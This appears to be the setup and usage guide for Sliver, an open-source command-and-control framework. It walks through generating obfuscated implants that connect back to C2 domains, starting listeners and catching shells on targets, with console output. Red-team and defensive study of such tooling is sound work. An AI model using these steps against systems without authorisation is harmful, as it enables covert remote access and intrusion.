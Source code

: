 # Server Setup

The server supports Linux, Windows, and MacOS however we recommend running the server on a Linux or MacOS host, as some features may be more difficult to get working on a Windows server. However, the Windows client should work just fine when accessing a Linux/MacOS server.

Download the latest [release](https://github.com/BishopFox/sliver/releases) for your platform, and just run the binary. The first time you run the server it'll need to unpack some assets, which may take a minute or two, subsequent start ups should be faster.

__NOTE:__ Sliver has two external dependancies for _optional_ features: MinGW and Metasploit. To enable shellcode/staged payloads you need to install MinGW. To enable MSF integrations you'll need Metasploit installed.

The `Dockerfile` build of Sliver is mostly designed to run the unit tests but includes both MinGW and Metasploit. If you plan to run the server using Docker you'll need to forward the appropriate TCP ports (e.g. 80, 443, 31337) yourself.


### MinGW Setup (Optional)

In order to enable shellcode/staged/DLL payloads you'll need to install MinGW on the server (clients connecting to the server do not need it installed). By default Sliver will look in the usual places for MinGW binaries but you can override this using the [environment variables](https://github.com/BishopFox/sliver/wiki/Environment-Variables).

#### Linux

```
apt-get install mingw-w64 binutils-mingw-w64 g++-mingw-w64
```

#### MacOS

```
brew install mingw-w64
```

__Note:__ On MacOS you'll likely have to configure [environment variables](https://github.com/BishopFox/sliver/wiki/Environment-Variables) for MinGW.

### Metasploit Setup (Optional)

We strongly recommend using the [nightly framework installers](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers), Sliver expects version 5 or later.

## Generating Implants

Generating implants is done using the `generate` command, you must specify at least one C2 endpoint using `--mtls`, `--http`, or `--dns`. Note that when an implant attempts to connect to an endpoint specified using `--http` it will try both HTTPS and then HTTP (if HTTPS fails). We recommend using mutual TLS (`--mtls`) whenever possible. You can also specify an output directory with `--save`, by default the implant will be saved to the current working directory.

```
sliver > generate --mtls example.com --save /Users/moloch/Desktop

[*] Generating new windows/amd64 Sliver binary
[*] Symbol obfuscation is enabled, this process takes about 15 minutes
[*] Build completed in 00:10:16
[*] Sliver binary saved to: /Users/moloch/Desktop/NEW_GRAPE.exe
```

__IMPORTANT:__ The symbol obfuscation process can take 15+ mintues to complete depending on your server's CPU resources. You can skip this step with `--skip-symbols` but a lot of sketchy information will end up in the binaries that get generated. You should only use this flag if you're just playing around, or do not care about stealth.

Sliver implants are cross-platform, you can change the compiler target with the `--os` flag:

```
sliver > generate --mtls example.com --save /Users/moloch/Desktop --skip-symbols --os mac

[*] Generating new darwin/amd64 Sliver binary
[!] Symbol obfuscation is disabled
[*] Build completed in 00:00:03
[*] Sliver binary saved to: /Users/moloch/Desktop/PROPER_ANTHONY
```

The server will also assign codenames to each generated binary i.e. `NEW_GRAPE.exe` you can rename the file to anything you need to, but these codenames will still uniquely identify the generated binary (they're inserted at compile-time). You can also view all previously generated implant binaries with the `slivers` command:

```
sliver > slivers

Name                    OS/Arch        Debug  Format
====                    =======        =====  ======
CAUTIOUS_PANPIPE        darwin/amd64   false  EXECUTABLE
LATE_SUBCOMPONENT       windows/amd64  false  SHARED_LIB
RUBBER_PRINTER          windows/amd64  true   SHARED_LIB
RACIAL_SPECTACLES       darwin/amd64   false  EXECUTABLE
MATHEMATICAL_SASH       darwin/amd64   true   SHARED_LIB
MUSHY_TRADITIONALISM    windows/amd64  false  SHARED_LIB
SICK_SPY                darwin/amd64   false  EXECUTABLE
```

If you need to re-download a previously generated implant use the `regenerate` command, note that positional arguments (the implant name) comes after the command flags (e.g., `--save`):

```
sliver > regenerate --save /Users/moloch/Desktop/ NEW_GRAPE

[*] Sliver binary saved to: /Users/moloch/Desktop/NEW_GRAPE.exe
```

#### Additional Details

For addition details about each C2 please see:
* [HTTP(S) C2](https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2)
* [DNS C2](https://github.com/BishopFox/sliver/wiki/DNS-C2)

## Getting Shells

Before you can catch the shell, you'll first need to start a listener. You use the commands `mtls`, `http`, `https`, and `dns` to start listeners for each protocol (remember endpoints specified with `--http` can connect to a listener started with `https`). You can use the `jobs` command to view and manage listeners running in the background.

```
sliver > mtls

[*] Starting mTLS listener ...
[*] Successfully started job #1

sliver > jobs

ID  Name  Protocol  Port
==  ====  ========  ====
1   mTLS  tcp       8888
```

In this example we're using Mutual TLS, the required certificates for setting up and securing this connection have already been generated in the background and the client certificate pair was embedded into the implant at compile-time. So to get a shell you just have to run the binary on the target.

```
[*] Session #1 PROPER_ANTHONY - 127.0.0.1:49929 (narvi.local) - darwin/amd64

sliver > use 1

[*] Active sliver PROPER_ANTHONY (1)

sliver (PROPER_ANTHONY) > ls

/Users/moloch/Desktop
=====================
.DS_Store                 6.0 KiB
.localized                0 B
PROPER_ANTHONY            6.3 MiB
```


## Multiple Domains/Protocols

You can specify multiple domains and protocols during the generation process. Right now Sliver will attempt to use the most performant protocols first (MTLS -> HTTP(S) -> DNS) using subsequent domains/protocols when connections fail.

```
sliver > generate --mtls example.com --http foobar.com --dns 1.lil-peep.rip
```

Eventually we'll add a feature to manually specify the fallback protocols, or you can add this feature and send up a PR :).
